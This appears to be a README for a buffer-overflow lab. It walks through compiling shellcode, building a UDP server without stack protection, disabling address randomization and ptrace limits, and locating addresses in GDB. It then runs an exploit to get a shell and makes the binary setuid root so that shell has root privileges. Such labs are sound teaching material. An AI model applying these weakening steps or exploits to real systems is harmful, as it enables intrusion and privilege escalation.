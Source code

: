 ## Example: 
https://thesquareplanet.com/blog/smashing-the-stack-21st-century/ <br />


## Commands: <br />
Compile the shellcode:
```
cc -m64 -c -o shellcode.o shellcode.S
objcopy -S -O binary -j .text shellcode.o shellcode.bin
```
Compile the UDP server program without stack protection (canary) and allowing the stack to be executable:
```
gcc -g -fno-stack-protector -z execstack udp_server.c -o udp_server -D_FORTIFY_SOURCE=0
```
Turn off address randomization:
```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Make sure the udp_Server file has execution permissions:
```
sudo chmod +x udp_server
```
Command to run without address randomization:
```
env - setarch -R ./udp_server
```
In another terminal, allow the program to be traced:
```
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```
Get the process id of the udp_server program and attach GDB to it:
```
gdb -p $(pgrep udp_server)
```
In GDB you want to set at break point at recvfrom, then get the address of the buffer and the return address:
```
b recvfrom
c
p &buffer
```
Write down the address where the buffer starts. Then look for the return address:
```
info frame
```
The return address is "rip at ...". Adjust the values in the Python script and run the exploit:
```
Restart the server in one terminal:
```
env - setarch -R ./udp_server
```
And run the exploit in Another terminal:
```
python3 exploit.py
```
You can start executing shell commands in the server terminal. <br />

Note: if you like the shell to have privileges, you can make udp_server a privileged program with the commands given below. Make sure to rexecute them in order as ownership changes unset the setuid bit.
```
sudo chown root udp_server
sudo chmod 4755 udp_server
```
